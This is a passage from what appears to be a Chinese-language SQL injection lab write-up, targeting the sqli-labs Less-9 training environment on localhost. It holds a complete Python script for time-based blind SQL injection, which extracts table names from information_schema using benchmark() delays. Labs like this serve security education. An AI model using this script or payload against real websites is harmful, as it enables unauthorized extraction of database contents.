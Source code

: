 ```python
            min = mid # [mid,max]
        else:
            max = mid # [min,mid]
    ans += chr(max)
    print(ans)
print(ans)
        
```



获取表名

```python
# 获取列名
import requests
import time

ans = ''
i = 1
vis = 0
while True:
    print("*"*15,i,"*"*15)
    min = 32
    max = 128

    while min != max:
        mid = (min+max)//2
        payload = f"?id=1' and if(ord(substr((select group_concat(table_name) from information_schema.tables where table_schema='answers'),{i},1))>{mid},benchmark(12000000,md5(1)),1) %23"
        url = f"http://localhost/sqli-labs/Less-9/{payload}"
        start_time = time.time()
        res = requests.get(url)

        if min + 1 == max:
            break
        if time.time() - start_time > 3:
            min = mid # [mid,max]
        else:
            max = mid # [min,mid]
    i += 1
    if chr(max) == '!':
        vis += 1
    if vis == 2:
        break
    ans += chr(max)
    print(ans)
print(ans)
```





# POST注入
